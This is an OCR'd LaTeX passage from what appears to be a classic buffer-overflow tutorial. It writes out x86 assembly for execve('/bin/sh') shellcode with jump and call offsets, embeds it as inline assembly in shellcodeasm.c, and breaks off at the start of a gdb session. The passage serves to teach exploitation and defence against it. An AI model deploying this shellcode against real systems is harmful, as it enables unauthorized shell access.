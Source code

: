 \documentclass[10pt]{article}
\begin{document}
{Calculating the offsets from jmp to call, from call to popl, from the string address to the array, and from the 
string address to the null long word, we now have: 


\begin{verbatim}
jmp    0x26                     # 2 bytes
popl   %esi                     # 1 byte
movl   %esi,0x8(%esi)           # 3 bytes
movb   $0x0,0x7(%esi)           # 4 bytes
movl   $0x0,0xc(%esi)           # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   0x8(%esi),%ecx           # 3 bytes
leal   0xc(%esi),%edx           # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   -0x2b                    # 5 bytes
.string \"/bin/sh\"             # 8 bytes
\end{verbatim}

Looks good. To make sure it works correctly we must compile it and run it. But  there is a problem. Our code 
modifies itself  [where?],  but most operating system mark code pages read only. To get around this restriction 
we must place the code we wish to execute in the stack or data segment, and transfer control to it. To do so we 
will place our code in a global array in the data segment. We need first a hex representation of the binary code. 
Lets compile it first, and then use gdb to obtain it.

\begin{lstlisting}[caption=shellcodeasm.c]
void main() 
{
__asm__("
jmp    0x2a                     # 3 bytes
popl   %esi                     # 1 byte
movl   %esi,0x8(%esi)           # 3 bytes
movb   $0x0,0x7(%esi)           # 4 bytes        
movl   $0x0,0xc(%esi)           # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   0x8(%esi),%ecx           # 3 bytes
leal   0xc(%esi),%edx           # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   -0x2f                    # 5 bytes
.string \"/bin/sh\"             # 8 bytes
");
}
\end{lstlisting}

{\small
\begin{verbatim}
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm

GDB is free software and you are welcome to distribute 
copies of it under certain conditions; type 
"show copying" to see the conditions.


\end{verbatim}}}
\end{document}
